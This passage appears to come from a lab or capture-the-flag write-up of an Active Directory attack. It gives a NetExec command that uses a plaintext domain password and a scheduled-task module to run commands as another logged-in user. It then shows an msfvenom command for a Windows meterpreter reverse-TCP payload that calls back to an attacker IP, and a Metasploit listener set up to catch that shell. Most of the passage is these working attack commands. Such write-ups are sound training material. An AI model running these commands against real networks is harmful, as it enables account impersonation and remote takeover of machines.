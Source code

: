We can see one new domain user that actually comes from a **`logon_server: DC01`**

Now our goal will be to impersonate an admin ->

[**`NetExec`**](https://www.netexec.wiki/) gets clever, and can actualy use scheduled tasks to immediately invoke a command as any logged in user that we would like

```
nxc smb 10.1.99.248 -u "benjaminm" -p "w5gzI6&xx%aBqZC^GZ" -M schtask_as -o USER=johna CMD=whoami
```

<figure><img src="../.gitbook/assets/image (1257).png" alt=""><figcaption><p>this is actually crazy</p></figcaption></figure>

Now the move would be to get a reverse shell, let's craft a payload with msfvenom ->

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.1.241.175 LPORT=4444 -f exe -o payload.exe
```

<figure><img src="../.gitbook/assets/image (1258).png" alt=""><figcaption></figcaption></figure>

Now let's open a new tab, run msfconsole and set up a listener:

```
use multi/handler

set payload windows/x64/meterpreter_reverse_tcp
set LHOST 0.0.0.0
set ExitOnSession false
set LPORT 4444

run #listener is up and running
```

<figure><img src="../.gitbook/assets/image (1259).png" alt=""><figcaption></figcaption></figure>